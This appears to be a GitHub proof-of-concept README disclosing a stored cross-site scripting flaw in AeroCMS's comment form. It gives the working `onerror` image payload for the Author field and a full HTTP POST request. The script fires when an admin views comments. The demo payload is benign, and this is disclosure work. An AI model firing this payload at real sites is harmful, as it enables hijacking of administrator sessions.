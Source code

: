 # AeroCMS-Comment-Stored_XSS-POC
* `Note` => Don't need register or login account 
* `Description` => `Stored_XSS` at comment box
## Step to Reproduct
* Click `Read More` -> input payload `<img/src/onerror=prompt(10)>` at `Author` -> click `Submit` button 
# Exploit
* Input payload at `Author` -> click `Submit` button
![image](https://user-images.githubusercontent.com/79050415/157009053-539e0d0f-8de7-449f-9815-2059c15179ab.png)
* When admin login to admin panel and click `Comments` -> The XSS will trigger 
![image](https://user-images.githubusercontent.com/79050415/157009623-8afdecf4-8bfc-48ed-be9c-a298628eeb5f.png)
* Finally, Success !!!!
![image](https://user-images.githubusercontent.com/79050415/157009805-fc9c33bb-7ae9-4229-9051-081c23d72b92.png)
# Vulnerable Code
# POC
* `Injection Point` 
```c
comment_author=%3Cimg%2Fsrc%2Fonerror%3Dprompt%2810%29%3E&comment_email=bin%40gmail.com&comment_content=hacked&create_comment=
```
* `Request`
```c
POST /AeroCMS/post.php?p_id=36 HTTP/1.1
Host: localhost:8080
Content-Length: 126
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/AeroCMS/post.php?p_id=36
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=loqbt1ibs376hge1s415srq441
Connection: close

comment_author=%3Cimg%2Fsrc%2Fonerror%3Dprompt%2810%29%3E&comment_email=bin%40gmail.com&comment_content=hacked&create_comment=
```
`POC VIDEO` https://drive.google.com/file/d/1GxOyX1JkG0trfdaCLfe06TR6WLIGoUXE/view?usp=sharing
